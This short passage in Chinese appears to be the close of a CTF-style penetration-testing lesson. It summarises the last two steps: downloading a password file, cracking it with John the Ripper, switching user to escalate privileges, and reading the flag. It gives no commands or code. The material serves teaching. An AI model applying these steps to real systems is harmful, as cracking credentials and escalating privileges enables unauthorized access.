5.  **权限提升**：下载密码文件，使用John破解，切换用户并提权。
6.  **获取目标**：读取Flag文件。



本节课到此结束。